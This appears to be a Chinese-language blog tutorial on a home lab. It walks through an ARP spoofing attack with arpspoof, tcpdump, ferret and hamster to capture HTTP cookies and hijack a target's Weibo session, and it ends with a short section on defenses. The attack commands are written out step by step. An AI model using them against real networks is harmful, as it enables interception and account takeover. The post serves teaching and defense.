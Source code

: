 ```yaml
---
layout:     post
title:      "内网安全之 ARP 欺骗"
subtitle:   "使用 Kali Linux 下的 arpspoof, tcpdump, ferret, hamster 通过 ARP 攻击实现 Cookie 劫持"
date:       2016-06-23 21:32 +0800
author:     "gsfish"
header-img: "img/post-bg-kali.jpg"
tags:
    - 内网安全
    - 渗透
---
```



# 0x00 实验环境

```
网关：
192.168.1.1
 
攻击者：  
IP: 192.168.1.110
OS: Kali Linux (VirtualBox)

靶机：
IP: 192.168.1.105
OS: Windows 10 Home
```


# 0x01 基本思路

1. 首先通过 ARP 欺骗使靶机与网关间的数据包经由攻击者主机转发
2. 等待目标用户进行登陆操作，抓取 HTTP 数据包
3. 解析所抓取的数据包，并提取出 Cookie
4. 将 Cookie 导入浏览器，从而实现劫持目标用户的会话


# 0x02 工具准备

## 安装 ferret

除 `ferret` 的其他 3 个工具已经集成在 Kali 中了，我们要自行安装 `ferret`（64 位 Kali 需要增加对 32 位程序的支持才能在源中找到它）。这个工具连同 `hamster` 是由一个名叫 [Robert Graham](https://github.com/robertdavidgraham) 的黑客开发的。

增加包管理器对 32 位程序的支持，更新源并安装工具：

```
sudo dpkg --add-architecture i386
sudo apt-get update
sudo apt-get install ferret-sidejack
```

## 开启 IP 转发

使用 arpspoof 进行 ARP 欺骗前需要开启本机的 IP 转发（这个临时的，重启后会失效），不然目标用户在攻击期间会无法上网，从而起疑。

```
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```


# 0x03 作战开始

## 进行 ARP 欺骗

```
sudo arpspoof -i eth0 -t 192.168.1.105 192.168.1.1
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.105

说明：
-i  所用的网卡设备名
-t  攻击目标的 IP（由于是单向的，所以需要开启两个）
```

![01.png](/img/lan-attack-cookie-hijack/01.png)

![02.png](/img/lan-attack-cookie-hijack/02.png)

这两个窗口在攻击过程中要一直保持。然后进入靶机，打开命令提示符：

`arp -a`

![03.png](/img/lan-attack-cookie-hijack/03.png)

可以看到 ARP 缓存表中网关的 MAC 已经变成攻击者的了，取得初步胜利~

## 抓取 HTTP 数据包

```
sudo tcpdump -i eth0 tcp port 80 and host 192.168.1.105 -w cookie.cap

说明：
-i  所用的网卡设备名
-w  生成数据包的名称
tcp port 80 and host 192.168.1.105  抓取通过 192.168.1.105:80 的数据包
```

等待目标用户登陆网站或访问任何登陆后的页面，于是就可以抓到含有 Cookie 的 HTTP 数据包了。过一段时间后停止抓取（这只能抓取 HTTP 流量，如果网站启用了 HTTPS 就需要采用新的姿势了，例如 SSLstrip）。

![04.png](/img/lan-attack-cookie-hijack/04.png)

在家目录下会生成一个 `cookie.cap` 文件，这就是我们一直在抓的数据包了。然而现在我们还看不懂其中的内容，需要用 `ferret` 来解析一下。

## 解析 cookie.cap

```
ferret -r cookie.cap

说明：
-r  读取数据包并将其解析，生成 hamster.txt
-i  所用的网卡设备名（其实 ferret 也有抓包的功能）
```

![05.png](/img/lan-attack-cookie-hijack/05.png)

此时数据包中的内容已被解析并保存到了家目录中的 `hamster.txt`。

## 加载 Cookie 模拟登陆

直接运行即可：

```
hamster
```

`hamster` 是一个十分高效的工具，直接输入命令即可打开。虽然 Firefox 的一些插件自定义 Cookie，但 `hamster` 能很方便地把我们生成的 `hamster.txt` 中的 Cookie 信息自动导入到浏览器中：

![06.png](/img/lan-attack-cookie-hijack/06.png)

打开浏览器，设置代理为 `127.0.0.1`，端口 `1234`：

![07.png](/img/lan-attack-cookie-hijack/07.png)

在地址栏输入 `127.0.0.1:1234`。点击 `192.168.1.105`，接着出现以下页面：

![08.png](/img/lan-attack-cookie-hijack/08.png)

在左侧栏我们看到了 `http://weibo.com/...`。点击链接，成功利用目标用户的 Cookie 登陆器其新浪微博。把这个地址复制到地址栏后就可以正常使用其微博的所有功能啦：

![09.png](/img/lan-attack-cookie-hijack/09.png)


# 0x04 防御 ARP 欺骗

如果你平时大部分时间使用的都是公共网络，而你的身边恰好有人喜欢搞过安全，那就别浏览那些比较私密的东西啦。同时这也告诉我们，最好不要使用机场、餐厅这些公共场合的 WIFI 进行一些登陆的操作（除非使用了 VPN）。

关于 ARP 攻击的防范方面，主机和路由器都需要进行相关设置的。路由器要在管理页面设置 MAC 绑定，而主机方面可以通过 `arp -s` 这个命令将网关的 IP 与 MAC 进行绑定。

同学 [@yungkcx](https://github.com/yungkcx) 刚好写了一篇相关的博客，在此安利一波：

[https://yungkcx.github.io/network/security/2016/06/10/An-ARP-Attack.html](https://yungkcx.github.io/network/security/2016/06/10/An-ARP-Attack.html)


# 参考文献

1. [Anka9080. 『局域网安全』利用ARP欺骗劫持Cookie[EB/OL]. http://www.cnblogs.com/anka9080/p/arpspoof.html](http://www.cnblogs.com/anka9080/p/arpspoof.html)

